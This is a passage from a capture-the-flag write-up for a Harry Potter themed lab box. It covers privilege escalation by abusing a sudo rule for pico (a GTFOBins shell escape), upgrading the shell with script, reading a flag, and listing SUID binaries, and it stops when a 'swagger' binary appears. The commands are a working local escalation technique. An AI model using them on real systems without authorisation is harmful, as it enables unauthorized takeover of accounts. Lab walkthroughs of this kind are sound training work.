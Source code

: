
Let's start privilege escalation.



# PRIVILEGE ESCALATION
---


Let's check our sudo privileges:


```
harry@hogwartz-castle:~$ sudo -l
[sudo] password for harry:
Matching Defaults entries for harry on hogwartz-castle:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User harry may run the following commands on hogwartz-castle:
    (hermonine) /usr/bin/pico
    (hermonine) /usr/bin/pico
```

Weird, we can run `/usr/bin/pico` as user`hermonine`, let's check this on `gtfobins`:

![](../images/Pasted%20image%2020250404182759.png)

Let's do this:

```
sudo -u hermonine TERM=xterm /usr/bin/pico 
ctrl R ctrl X
reset; sh 1>&0 2>&0
```

![](../images/Pasted%20image%2020250404183940.png)

Let's get a more comfortable shell:

```
/usr/bin/script -qc /bin/bash /dev/null
```

![](../images/Pasted%20image%2020250404183955.png)

```
hermonine@hogwartz-castle:/home/hermonine$ cat user2.txt
RME{p1c0-iZ-oLd-sk00l-nANo-64e977c63cb574e6}
```


If we check `find / -perm -4000 2>/dev/null`, we can see this:

![](../images/Pasted%20image%2020250404184310.png)

Interesting, there's something called `/srv/time-turner/swagger`, let's take a look:

